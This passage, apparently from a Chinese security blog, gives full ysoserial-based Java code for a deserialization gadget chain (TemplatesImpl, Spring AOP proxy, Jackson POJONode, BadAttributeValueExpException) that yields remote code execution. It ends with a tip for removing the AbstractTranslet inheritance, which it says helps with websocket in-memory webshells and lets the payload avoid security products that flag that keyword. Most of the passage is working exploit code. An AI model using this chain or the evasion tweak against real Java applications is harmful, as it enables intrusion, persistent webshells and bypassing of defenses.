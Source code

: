 在 ysoserial 中也提供了一个代理封装的方法：`Gadgets#createProxy`，下面给出利用 ysoserial 构造后的完整代码：

```java
public class test implements ObjectPayload<Object> {
    public Object getObject(String command) throws Exception {
        final TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command,TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(templatesImpl);
        final Object proxyObj = Gadgets.createProxy(
            (InvocationHandler) Reflections.getFirstCtor("org.springframework.aop.framework.JdkDynamicAopProxy").newInstance(as),Templates.class);
        POJONode jsonNodes = new POJONode(proxyObj);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
        Field val = exp.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        return exp;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(Jackson1.class, args);
    }
}
```

## 0x04 结尾

此次过程中还发现了一个 Tips，具体分析可参考：[https://ispacesoft.com/161752.html](https://ispacesoft.com/161752.html)

问题：ysoserial 中使用了 Javassist 来构建 templates 的\_bytecodes 属性时，需要继承 AbstractTranslet 类才能利用，移除继承后无法利用。

1.  在 websocket 内存马中，变成了抽象类`javax.xml.ws.Endpoint`，但是由于 java 不允许多继承，继承了 AbstractTranslet 类后，就无法再继承 Endpoint 类了；
2.  部分安全产品对 AbstractTranslet 关键字也有检测。

解决：满足两个条件即可实现去除继承 AbstractTranslet 类：

1.  参数 `classCount` 数量大于 1，即生成类的数量大于 1；
2.  参数 `_transletIndex` 大于等于 0，该属性为指定为恶意类的索引，默认为 -1。

```java
//原写法
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes});
//修改后
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
classBytes, ClassFiles.classAsBytes(Foo.class)
});
//添加_transletIndex 字段
Reflections.setFieldValue(templates, "_transletIndex", 0);
Reflections.setFieldValue(templates, "_name", "Pwnr");
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
```
